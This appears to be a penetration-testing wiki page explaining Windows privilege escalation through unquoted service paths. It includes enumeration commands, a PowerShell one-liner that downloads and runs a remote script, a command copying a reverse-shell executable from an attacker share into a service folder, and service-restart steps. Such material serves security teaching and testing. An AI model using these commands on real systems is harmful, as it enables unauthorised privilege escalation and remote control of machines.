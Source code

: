 ```yaml
---
description: >-
  MITRE ATT&CK™ Hijack Execution Flow - Path Interception by Unquoted Path -
  Technique T1574.09
---
```


# Unquoted Service Path

## Theory

Windows privilege escalation through unquoted service paths is a common vulnerability that occurs when a service executable file is installed in a directory path that contains spaces but is not surrounded by quotation marks. When Windows starts a service, it looks for the executable file based on the service's configuration. If the path to the executable contains spaces and is not enclosed in quotation marks, Windows may interpret the path incorrectly. In such cases, Windows will try to locate the executable using a combination of the directory names and filenames in the path, which can result in unintended files being executed.

Here's an example to illustrate this, consider we have the following executable path:

```
C:\Program Files\A Subfolder\B Subfolder\C Subfolder\VulnSvc.exe
```

In order to run SomeExecutable.exe, the system will interpret this path in the following order:

* C:\Program.exe
* C:\Program Files\A.exe
* C:\Program Files\A Subfolder\B.exe
* C:\Program Files\A Subfolder\B Subfolder\C.exe
* C:\Program Files\A Subfolder\B Subfolder\C Subfolder\VulnSvc.exe

## Practice

{% tabs %}
{% tab title="Enumerate" %}
We can use wmic to enumerate it:

```powershell
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """

gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

Alternativly, we can use `Invoke-AllChecks` from PowerUp

```powershell
powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-site.com/PowerUp.ps1'); Invoke-AllChecks"
```
{% endtab %}

{% tab title="Exploit" %}
You can check if you have write acces to a folder with `icacls`

```powershell
icacls "C:\Program Files\A Subfolder\"
```

If you can write to it, you can place your binary like:

```powershell
copy \\ATTACKING_IP\Share\reverse.exe C:\Program Files\A Subfolder\B.exe  
```

And then, restart the service

```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc stop <Service_Name>
sc start <Service_Name>
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---unquoted-service-paths" %}

